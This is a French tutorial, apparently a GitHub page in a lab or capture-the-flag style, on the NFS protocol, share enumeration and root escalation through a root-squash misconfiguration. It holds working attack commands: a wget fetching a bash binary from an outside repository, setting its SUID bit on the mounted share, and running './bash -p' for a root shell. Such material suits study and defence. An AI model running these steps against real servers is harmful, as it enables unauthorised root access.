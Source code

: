 
# Les bases des exploits NFS

## Introduction

Le protocole NFS (Network File System) est un protocole de partage de fichiers qui permet aux utilisateurs de se connecter à un serveur et d'accéder à des fichiers distants comme s'ils étaient stockés localement. Il est utilisé pour partager des fichiers, des répertoires et des périphériques sur un réseau. Il est basé sur le protocole RPC (Remote Procedure Call) et utilise le protocole TCP/IP pour la communication entre les machines. Il permet à un système de partager des répertoires et des fichiers avec d'autres sur un réseau. En utilisant NFS, les utilisateurs et les programmes peuvent accéder à des fichiers sur des systèmes distants presque comme s'il s'agissait de fichiers locaux. Pour ce faire, il monte tout ou partie d'un système de fichiers sur un serveur. Les clients peuvent accéder à la partie du système de fichiers qui est montée avec les privilèges attribués à chaque fichier.

Le protocole NFS permet de transférer des fichiers entre des ordinateurs fonctionnant sous Windows et d'autres systèmes d'exploitation non Windows, tels que Linux, MacOS ou UNIX.

Un ordinateur fonctionnant sous Windows Server peut faire office de serveur de fichiers NFS pour d'autres ordinateurs clients ne fonctionnant pas sous Windows. De même, NFS permet à un ordinateur Windows fonctionnant sous Windows Server d'accéder à des fichiers stockés sur un serveur NFS non Windows.

### Fonctionnement succinct du protocole NFS

Tout d'abord, le client demande à monter un répertoire d'un hôte distant sur un répertoire local, de la même manière qu'il peut monter un périphérique physique. Le service de montage se connecte alors au démon de montage correspondant à l'aide de RPC.

Le serveur vérifie si l'utilisateur a le droit de monter le répertoire demandé. Il renvoie ensuite une poignée de fichier qui identifie de manière unique chaque fichier et répertoire se trouvant sur le serveur.

Si quelqu'un souhaite accéder à un fichier à l'aide de NFS, un appel RPC est lancé à NFSD (le démon NFS) sur le serveur. Cet appel prend des paramètres tels que :

* l'identifiant du fichier
* le nom du fichier auquel il faut accéder
* l'ID de l'utilisateur
* l'ID du groupe de l'utilisateur

Ces éléments sont utilisés pour déterminer les droits d'accès au fichier spécifié. C'est ce qui contrôle les autorisations de l'utilisateur, c'est-à-dire la lecture et l'écriture des fichiers.


## Enumeration

### Packet nécessaire

Tout d'abord, il faut avoir le paquet nfs-common installé sur la machine. Pour cela, il suffit de rentrer la commande suivante :

```bash
sudo apt install nfs-common
```
### Ports de base NFS

Le port de base NFS est le port 2049. C'est du TCP/IP.

### Enumération des partages NFS

Pour lister les partages NFS, il suffit de rentrer la commande suivante :

```bash
showmount -e [IP]
```

### Montage d'un partage NFS

Le client a besoin d'un point de montage local pour accéder au système de fichiers NFS partagé. Le point de montage peut être un répertoire vide ou un répertoire existant avec des fichiers. Le client peut monter le système de fichiers NFS partagé sur un point de montage local à l'aide de la commande mount.

```bash
sudo mount -t nfs [IP]:[PATH] [PATH] -nolock
```

TAG | Description
--- | ---
`-t nfs` | spécifie le type de système de fichiers
`[IP]:[PATH]` | spécifie l'adresse IP du serveur NFS et le chemin d'accès au partage NFS
`[PATH]` | spécifie le chemin d'accès au point de montage local
`-nolock` | Spécifie de ne pas utiliser le verrouillage NLM


### Démontage d'un partage NFS

Pour démonter un partage NFS, il suffit de rentrer la commande suivante :

```bash
sudo umount [PATH]
```
## Exploitation d'un partage NFS

### Gains de privilèges

#### Exploitation de l'UID

Prérequis : avoir réussi à se connecter en SSH sur la machine cible

Si le serveur NFS est configuré pour utiliser des UID statiques, il est possible de créer un utilisateur avec un UID bas et de se connecter en tant que cet utilisateur pour obtenir des privilèges plus élevés.

Méthode : 

1. Se connecter en tant qu'utilisateur avec un UID bas
2. Téléchargement de l'exécutable Bash sur le partage NFS
3. Définir les permissions SUID via NFS en raison d'une mauvaise configuration de la racine Squash
4. Connexion par SSH
5. Exécuter l'exécutable SUID Bit Bash
6. ROOT ACCESS

La cible étant un serveur Ubuntu Server 18.04 nous utiliserons un exécutable bash standard d'Ubuntu, le même que celui du serveur (le type de serveur a été su grâce à notre analyse nmap).
Lexécutable est disponible sur ce [github](https://github.com/polo-sec/writing/tree/master)
Attention à ne télécharger que l'exécutable voulu : bash
L'exécutable : 

```bash
wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
```

Il faut changer les permission de l'exécutable en lui rajoutant le bit SUID :

```bash
chmod +s bash
```

Il faut aussi lui ajouter les droits d'exécution s'il ne l'a pas : 

```bash
chmod +x bash
```

Les droits du fichier devraient ressembler à ça :

```bash
-rwsr-sr-x 1 root root 1.3M Apr  4  2018 bash
```

Il faut le mettre dans le répertoire monté en nfs et se connecter en SSH sur la machine cible.
Enfin, il suffit de l'exécuter avec :

```bash
./bash -p
```

Le flag -p permet de garder les droits de l'utilisateur actuel, ce qui permet d'obtenir un shell root.
